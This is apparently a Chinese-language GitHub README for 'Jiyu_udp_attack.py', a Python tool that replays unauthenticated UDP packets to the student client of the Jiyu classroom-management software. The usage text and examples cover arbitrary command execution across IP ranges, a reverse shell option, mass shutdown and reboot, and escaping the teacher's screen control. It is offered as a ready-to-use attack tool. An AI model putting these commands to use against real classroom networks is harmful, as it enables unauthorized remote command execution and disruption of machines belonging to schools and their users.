
# 极域电子教室数据包(udp)重放攻击脚本
+ 因为极域的学生端没有对接收到的udp包做(=・ω・=)身份验证，导致了我们可以构造特定的数据包让学生端来执行，从而实现命令执行攻击机房内上线的任意学生端机器。
## 运行环境
+ Python3

## 版本说明
v1.3
- 脱离/恢复屏幕控制
- 支持反弹shell

v1.2
- 修复bug

v1.1
- -g 选项支持获取学生端监听的端口

v1.0
- 首次提交




## 使用方法：
```
    Usage: Jiyu_udp_attack.py -ip ip_address -p port -msg/-c/-r/-s xxx

        -ip   ip addres IP地址                 example:   -ip   192.168.80.23
                                                                192.168.80.122/24
        -p    port, default = 4705 端口，默认为4705

        -msg  send message 发送消息                        -msg  HelloWord!

        -c    command 命令                                 -c   "cmd.exe /c ipconfig" 
                                                                calc.exe
        -r    reboot 重启

        -s    shutdown 关机

        -l    loop * times, default = 1 循环次数，默认为1

        -t    loop interval, default = 22 s 循环时间间隔，默认是22秒


        -------------------- Extra Options --------------------
        
        -nc   反弹shell，使用命令exit退出
        
        -g    single options, Gets the current Intranet IP and student 
              client possible ports. 
              独立选项，获取当前的ip地址以及学生端监听的端口。
              If choose this options, other are become invalid. 
              如果选择了这个选项，其他选项将会失效。
         
        -break     独立选项，脱离屏幕控制，需要管理员权限

        -continue  独立选项，恢复屏幕控制


          
```

## 使用例子

### 1.获取内网ip地址及监听的端口
```
python Jiyu_udp_attack.py -g
```

### 2.脱离屏幕控制
当前运行权限需为管理员权限，主要用于开启MpsSvc服务
```
python Jiyu_udp_attack.py -break
```

### 3.恢复屏幕控制
```
python Jiyu_udp_attack.py -continue
```

### 4.发送消息
向IP地址为192.168.80.12的机器发送一条内容为"hello,baby!"的消息
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -msg "hello,baby!"

```

### 5.执行命令
给192.168.80.12到192.168.80.137弹一个计算器
```
python Jiyu_udp_attack.py -ip 192.168.80.12-137 -p -c calc.exe
```

### 6.反弹shell
反弹shell时，IP只能为某个机器IP，不能批量反弹，而且机器需要出网
因为已经实现批量的任意命令执行，考虑到批量反弹也没啥意义，遂不添加
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -nc
```

### 7.关机重启
关机
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -s
```
重启
```
python Jiyu_udp_attack.py -ip 192.168.80.12 -p -r
```

### 8.循环
利用循环持续发送消息<br>
1-254的机器会收到一条"hello,baby!"的消息，50s后会继续执行，共执行3次
```
    python Jiyu_udp_attack.py -ip 192.168.80.23/24 -p -msg "hello,baby!" -l 3 -t 50
```





